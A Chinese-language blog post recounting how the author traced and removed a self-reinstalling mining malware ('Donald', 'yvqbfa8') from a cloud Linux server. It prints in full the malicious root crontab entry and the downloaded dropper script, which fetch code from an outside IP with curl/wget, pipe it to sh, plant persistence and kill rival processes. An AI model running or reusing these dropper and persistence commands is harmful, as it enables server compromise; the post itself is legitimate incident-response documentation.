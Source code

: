 ```yaml
---
title: Linux服务器病毒查杀经过
date: 2019-12-16 11:22:47
tags: Linux
categories: 技术
---
```


# 概述

手上一个阿里云的服务器，最近发现CPU占用率飙高，有190.7%，影响了服务器的性能。 top一下系统的进程占用情况，发现有个不知名的进程Donald一直占用CPU，将进程杀死，还有执行程序删除后，过段时间，执行程序又会自动生成，并且自动启动了，当时推测有个定时任务自动去其他服务器自动下载可执行病毒程序。装了iftop软件检测异常网络流量，无果。最后推测是否这个病毒是否存在一个守护进程在检测和生成这个可执行病毒程序，结果是解决了这个病毒。

```
[root@izuf63bc56k6c8viz98bd1z ~]# top

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND                                                                                                                       
32448 root      20   0  304956 268232   1476 S 190.7  6.9   4:05.54 Donald
```

第一次排查系统中毒，问题比较棘手，花了2天，解决了。特此记录下，方便后续参考。

# 解决过程

1. 查询进程的执行程序

   ```
    [root@izuf63bc56k6c8viz98bd1z ~]# cd /proc/32448
    [root@izuf63bc56k6c8viz98bd1z 32448]# ll
    lrwxrwxrwx  1 root root 0 Dec 15 01:21 exe -> /tmp/Donald
   ```

   可以看到这个可以病毒的执行程序是Donald，位于/tmp 下。

2. 杀死可疑进程 在top执行结果界面中，按K，输入32448，再enter下，即是kill -9 32448的效果。

![top命令](/images/top.png)

1. 再删除病毒程序

   [root@izuf63bc56k6c8viz98bd1z 11770]# rm -rf /tmp/Donald

2. 过段时间，又会生成/tmp/Danold ,开始定位原因。

①crontab任务

```
[root@izuf63bc56k6c8viz98bd1z ~]# crontab -l -u root
*/15 * * * * (/usr/bin/yvqbfa8||/usr/libexec/yvqbfa8||/usr/local/bin/yvqbfa8||/tmp/yvqbfa8||curl -m180 -fsSL <http://218.93.239.148:5071/i.sh||wget> -q -T180 -O- <http://218.93.239.148:5071/i.sh>) | sh
```

可以看见有个crontab任务在执行下载，读了一下，好像跟Donald无关。读了一下http://218.93.239.148:5071/i.sh下载的文件，

```
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/root
echo "*/15 * * * * (/usr/bin/gewqfa8||/usr/libexec/gewqfa8||/usr/local/bin/gewqfa8||/tmp/gewqfa8||curl -fsSL -m180 <http://218.93.239.148:5071/i.sh||wget> -q -T180 -O- <http://218.93.239.148:5071/i.sh>) | sh" >> /var/spool/cron/root
cp -f /var/spool/cron/root /var/spool/cron/crontabs/root

cd /tmp
touch /usr/local/bin/writeable && cd /usr/local/bin/
touch /usr/libexec/writeable && cd /usr/libexec/
touch /usr/bin/writeable && cd /usr/bin/
rm -rf /usr/local/bin/writeable /usr/libexec/writeable /usr/bin/writeable

export PATH=$PATH:$(pwd)
ps auxf | grep -v grep | grep gewqfa8 || rm -rf gewqfa8
if [ ! -f "gewqfa8" ]; then
    curl -fsSL -m1800 <http://218.93.239.148:5071/static/4008/ddgs.$>(uname -m) -o gewqfa8||wget -q -T1800 <http://218.93.239.148:5071/static/4008/ddgs.$>(uname -m) -O gewqfa8
fi
chmod +x gewqfa8
/usr/bin/gewqfa8||/usr/libexec/gewqfa8||/usr/local/bin/gewqfa8||/tmp/gewqfa8

ps auxf | grep -v grep | grep gewqbcb | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep gewqbcc | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep gewqbcd | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep gewqbce | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep gewqfa0 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep gewqfa1 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep gewqfa2 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep gewqfa3 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep gewqfa4 | awk '{print $2}' | xargs kill -9

echo "*/15 * * * * (/usr/bin/gewqfa8||/usr/libexec/gewqfa8||/usr/local/bin/gewqfa8||/tmp/gewqfa8||curl -m180 -fsSL <http://218.93.239.148:5071/i.sh||wget> -q -T180 -O- <http://218.93.239.148:5071/i.sh>) | sh" | crontab -
```

源码大概意思是，下载一个ddgs.x86_32 文件另存为 gewqfa8,执行gewqfa8生成yvqbfa8进程，会在tmp生成Donald执行程序，如果没有则会创建并且执行。很狡猾这个黑客，进程名换了几个，我vi gewqfa8 和 Donald 想读下病毒是怎么写的，可是源码被混淆了，黑客这样做是为了躲过一些杀毒软件的查杀吧。

②可疑守护进程yvqbfa8

```
[root@izuf63bc56k6c8viz98bd1z ~]# top
PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND                                                                                                                       
32448 root      20   0  304956 268232   1476 S 190.7  6.9   4:05.54 Donald
31906 root      20   0  185484 109744   208  S 31.6   2.8   2:56.30 yvqbfa8

[root@izuf63bc56k6c8viz98bd1z bin]# kill -9 31906
```

再观察已经没有再生成Donald程序了。回头分析一下crontab任务，每15s执行下/usr/local/bin/yvqbfa8，yvqbfa8这个文件有点猫腻，可是vi 出来是乱码，是shell脚本被黑客混淆了，目前没找到方案解混淆。

# 解决方案

kill 病毒进程，删除crontab任务，删除执行文件gewqfa8，Donald